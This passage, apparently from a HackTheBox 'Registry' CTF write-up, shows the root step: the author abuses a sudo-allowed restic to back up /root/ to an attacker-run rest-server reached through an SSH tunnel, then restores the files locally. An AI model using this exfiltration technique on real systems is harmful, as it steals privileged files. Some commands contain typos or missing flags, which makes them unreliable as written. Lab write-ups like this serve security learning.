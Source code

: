 ```sh
# Create a restic repo, and set a password
$ resitc -r /root/frosty init
  password: [redacted]

# Start rest-server on port 7000
$ rest-server --path /root/frosty --no-auth --listen 0.0.0.0:7000

# Start ssh port forward
$ ssh -i id_rsa 7000:localhost:7000 bolt@registry.htb

# Perform the backup using www-data shell
$ sudo /usr/bin/restic backup -r rest:http://127.0.0.1/ /root/ -p /tmp/pw.txt

# Restore from the backup
$ restic -r /root/frosty restore latest --target /tmp/work
```

It is worth noting that the rest-server does not show any activity when you perform the backup. However, you can confirm that the backup has been successful as there is a new file placed in the `snapshot` directory in the restic repository. The backup of files retain their `root` permissions, however as this is our host we are able to switch the root user and view the files. For completeness, I logged in as root user to registry with the `id_rsa` key; however we had the root flag on our localhost anyway so logging in was not strictly necessary.

![Image](assets/img/writeups/hackthebox/registry/image-22.png)
